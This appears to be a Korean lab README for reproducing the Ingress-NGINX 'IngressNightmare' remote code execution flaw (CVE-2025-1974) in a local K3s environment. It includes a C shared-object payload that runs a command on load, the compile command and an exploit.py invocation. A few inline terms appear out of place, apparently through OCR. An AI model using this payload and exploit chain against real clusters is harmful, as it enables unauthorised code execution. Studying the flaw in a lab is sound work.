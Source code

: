 # Kubernets Ingress-NGINX 인증되지 않은 원격 코드 실행(CVE-2025-1974)

Ingress-NGINX: NGINX를 역방향 프록시 및 로드 밸런서로 사용하는 Kubernetes 용 인그레스 컨트롤러

"IngressNightmare" 취약점(CVE-2025-1974)은 수신되는 Ingree 리소스의 유효성을 검사하는 쿠버네티스의 핵심 보안 메커니즘인 Ingress-NGINX Admission Controller 의 치명적인 결함에서 비롯된다.

이 컨트롤러는 인증 없이도 네트워크에 노출되어 공격자가 악성 AdmissionReview 요청을 조작하고 Ingress 리소스에 무단 구성을 삽입할 수 있도록 한다.

다른 취약점(CVE-2025-24514, CVE-2024-1097 또는 CVE-2025-1098)과 연계될 경우 원격 코드 실행으로 이어질 수 있다.

일부 악용 가능한 체인은 다음과 같다.

CVE-2025-1974+CVE-2025-24514: <kbd>auth-url</kbd> 주석 주입을 통한 RCE

CVE-2025-1974+CVE-2025-1097: <kbd>auth-tls-match-cn</kbd> 주석을 통한 RCE

CVE-2025-1974+CVE-2025-1098: 이미지 UID 남용을 통한 RCE

## 환경 설정
취약점을 시뮬레이션 하기 위해 단순성을 위해 K3s 기반 Kubernetes 환경이 사용된다

```
docker compose up -d
```

쿠버네티스 API가 준비되고 Ingress-nginx 컨트롤러가 시작될 때까지 기다린다.
환경이 시작되면, Ingress-NGINX는 30080번과 30443번 포트(TLS)에서 수신 대기하고, Ingress-NGINX Admission Controller는 30443번 포트이다.

## 취약성 재생산
<kbd>.so</kbd> 먼저, 컨테이너의 아키텍처와 일치하는 공유 객체( ) 페이로드를 컴파일해야 한다.
```
#include<stdio.h>
#include<stdlib.h>

__attribute__((constructor)) static void reverse_shell(void)
{
    system("touch /tmp/hacked");
}
```

1. 소스 코드 컴파일

```
gcc -shared -fPIC -o shell.so shell.c
```

2. 위의 소스 코드를 적절한 환경으로 컴파일한 후 exploit.py를 사용하여 취약점을 악용

```
python exploit.py -a https://localhost:30443/networking/v1/ingresses -i http://localhost:30080/fake/addr -s shell.so
```
<kbd>AdmissionReview</kbd> exploit은 NGINX가 악성 동적 공유 객체를 로드하도록 강제하는 지시어 주입 요청을 위조하여 작동한다.

exploit이 성공하면 ingress-nginx 컨테이너 내부에 파일이 <kbd>ssl_engine</kbd> 생성되는 것을 확인할 수 있다.








